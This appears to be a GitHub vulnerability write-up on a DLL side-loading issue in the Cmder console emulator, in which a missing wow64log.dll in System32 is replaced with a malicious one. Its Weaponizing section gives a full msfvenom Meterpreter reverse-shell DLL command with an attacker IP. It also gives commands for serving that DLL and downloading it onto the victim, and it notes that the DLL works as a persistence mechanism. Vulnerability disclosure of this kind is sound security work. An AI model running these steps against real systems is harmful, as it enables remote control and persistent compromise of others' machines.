# Cmder DLL Side-Loading v1.3.25 (Full and Mini)
According to https://cmder.app/ it is:
````
Cmder is a software package created out of pure frustration over the absence of nice
console emulators on Windows. It is based on amazing software, and spiced up with
the Monokai color scheme and a custom prompt layout, looking sexy from the start.
````
I couldnt agree more, it is a great application and I use it on all my Windows systems.
This repo details an issue in the Cmder application (Full and Mini) in which a DLL is seached for and not found allowing an attacker the ability to get code execution

## Application Link
- https://cmder.app/
- https://github.com/cmderdev/cmder

## Overview
- In Sysinternals ProcessMonitor we can set three basic filters seen below
````
Process Name is Cmder.exe
Path Ends With .dll
Result is NAME NOT FOUND
````
![image](https://github.com/user-attachments/assets/57aa37ee-1d6a-4ef8-b19f-6aeee77faf46)
- The cmder application (Full version and Mini Version) both search for a dll located under `C:\Windows\System32\wow64log.dll`, however it cannot be found and is not included with Windows.
![image](https://github.com/user-attachments/assets/cc8ae186-ba31-47c4-8f33-2e1b48d3761d)

## Weaponizing
- We can generate a simple msfvenom DLL and place it under `C:\Windows\System32`, naming it `wow64log.dll`
````
# Generate the malicious DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.15.130 LPORT=4444 -f dll -o wow64log.dll
# Host the payload
python3 -m http.server
# Transfer the payload to the victim system
cd C:\Windows\System32
iwr http://kali.space:8000/wow64log.dll -o wow64log.dll
````
![image](https://github.com/user-attachments/assets/ef851afc-fae9-43a6-bc10-1c52aa2e3a4a)
- Upon opening the application we will recieve a call back.
- From testing your Meterpreter shell will drop you into `C:\Windows` and your pid will be associated to `rundll32.exe`. Your PPID will no longer be running on the system.
## Privilege Escalation
- From testing if the Cmder application is run without Administrator permissions you will recieve a shell in the context of your user account.
- If the Cmder application is run WITH Administrator permissions you will recieve a shell in the context of the Admin privileged account.
![image](https://github.com/user-attachments/assets/df922eee-615b-40a2-858f-1e9a1eaed4fd)
![image](https://github.com/user-attachments/assets/a1d8e088-1b7c-4613-a1d3-9695238a939a)

## Notes
- It should be noted that an attacker would require Administrator permissions in order to take advantage of this vulnerability. This is due to the missing DLL being located under `System32`. While this technique does not allow an attacker to priviledge escalate it does provide a potential persistance mechanism. This DLL Side Loading issue allows an attacker to gain code execution anytime the application Cmder is opened.
